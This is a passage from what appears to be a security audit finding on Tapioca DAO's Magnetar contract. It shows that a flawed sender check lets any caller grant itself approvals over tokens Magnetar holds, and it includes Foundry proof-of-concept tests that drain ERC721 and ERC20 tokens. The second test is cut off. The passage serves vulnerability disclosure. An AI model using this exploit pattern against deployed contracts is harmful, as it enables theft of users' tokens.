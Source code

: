 Let's also have a look at [`MagnetarStorage::_checkSender`](https://github.com/Tapioca-DAO/tapioca-periph/blob/032396f701be935b04a7e5cf3cb40a0136259dbc/contracts/Magnetar/MagnetarStorage.sol#L93-L97):
```solidity
File: tapioca-periph/Magnetar/MagnetarStorage.sol

93:    function _checkSender(address _from) internal view {
94:        if (_from != msg.sender && !cluster.isWhitelisted(0, msg.sender)) {
95:            revert Magnetar_NotAuthorized(msg.sender, _from);
96:        }
97:    }
```
Here, the first argument to whatever call is done in `_processPermitOperation` is checked. The important thing here is that it always passes if the first argument is `msg.sender`

This is troublesome for the calls: `IYieldBox::setApprovalForAll`, `IYieldBox::setApprovalForAsset`, `IERC20::approve`, and `IERC721::approve`. As they all have the operator/approvee as the first argument and use `msg.sender` as the "owner".

Hence any of these calls would pass with `msg.sender`, granting allowance from `Magnetar` to `msg.sender` which can be any user.

#### Impact
Any user can steal any whitelisted tokens held by `Magnetar`. However, as `Magnetar` is just a helper contract it is not supposed to hold any tokens.

#### PoC
Test in `tap-token/test/MagnetarApproval.t.sol`:
```solidity
    function testTakeERC721() public {
        erc721.mint(address(magnetar),1);

        MagnetarCall memory approve = MagnetarCall({
            id: MagnetarAction.Permit,
            target: address(erc721),
            value: 0,
            allowFailure: false,
            call: abi.encodeWithSelector(IERC721.setApprovalForAll.selector, address(this), true)
        });

        MagnetarCall[] memory calls = new MagnetarCall[](1);
        calls[0] = approve;

        magnetar.burst(calls);

        erc721.transferFrom(address(magnetar), address(this), 1);
        assertEq(erc721.ownerOf(1),address(this));
    }

    function testTakeERC20() public {
        erc20.mint(address(magnetar),1e18);

        MagnetarCall memory approve = MagnetarCall({
            id: MagnetarAction.Permit,
            target: address(erc20),
            value: 0,
            allowFailure: false,
            call: abi.encodeWithSelector(IERC20.approve.selector, address(this), 1e18)
        });

        MagnetarCall[] memory calls = new MagnetarCall[](1);
        calls[0] = approve;

        magnetar.burst(calls);

```